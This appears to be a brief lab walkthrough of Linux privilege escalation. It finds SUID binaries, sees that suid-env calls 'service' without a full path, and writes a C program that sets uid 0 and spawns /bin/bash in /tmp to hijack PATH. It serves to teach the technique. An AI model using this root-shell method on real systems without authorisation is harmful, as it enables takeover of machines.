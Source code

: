 # Detection

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

From the output make a note of all teh SUID binaries.

![image](https://user-images.githubusercontent.com/96658935/147711276-cb4174b8-e0a1-44bb-9033-59e9a9fa79a5.png)


```bash
strings /usr/local/bin/suid-env
```


![image](https://user-images.githubusercontent.com/96658935/147711310-9a96de3d-0af3-4668-b56b-d0f6d6a18460.png)


We see that it is caling the service command at the bottom

# Exploitation



```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
```

![image](https://user-images.githubusercontent.com/96658935/147711430-dac9d946-7276-42ba-bcdb-2478529e1cdf.png)

created a /tmp folder and placed the c code in that file service.c

* compiled the code from service.c to service and changed the Path


![image](https://user-images.githubusercontent.com/96658935/147711490-d6d8e544-a133-4e50-805f-5a171c022e85.png)


